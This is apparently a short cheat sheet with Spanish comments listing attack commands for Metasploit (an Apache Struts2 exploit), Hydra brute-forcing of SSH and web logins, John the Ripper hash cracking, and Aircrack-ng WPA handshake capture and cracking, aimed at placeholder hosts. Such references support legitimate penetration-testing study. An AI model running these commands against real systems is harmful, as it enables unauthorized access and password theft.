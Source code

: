 ### Metasploit
```bash
# Iniciar Metasploit
msfconsole

# Buscar exploits
search apache

# Usar un exploit
use exploit/multi/http/apache_struts2_content_type_ognl

# Configurar opciones
set RHOSTS 192.168.1.1
set RPORT 8080

# Ejecutar exploit
exploit
```

### Hydra
```bash
# Ataque de fuerza bruta SSH
hydra -l admin -P wordlist.txt ssh://192.168.1.1

# Ataque de fuerza bruta formulario web
hydra -l admin -P wordlist.txt 192.168.1.1 http-post-form "/login:username=^USER^&password=^PASS^:F=Login failed"
```

### John the Ripper
```bash
# Cracking de hash
john --format=md5 hash.txt

# Cracking con wordlist
john --wordlist=wordlist.txt hash.txt
```

### Aircrack-ng
```bash
# Poner interfaz en modo monitor
airmon-ng start wlan0

# Capturar tráfico
airodump-ng wlan0mon

# Capturar handshake
airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Cracking de WPA/WPA2
aircrack-ng -w wordlist.txt capture-01.cap
```
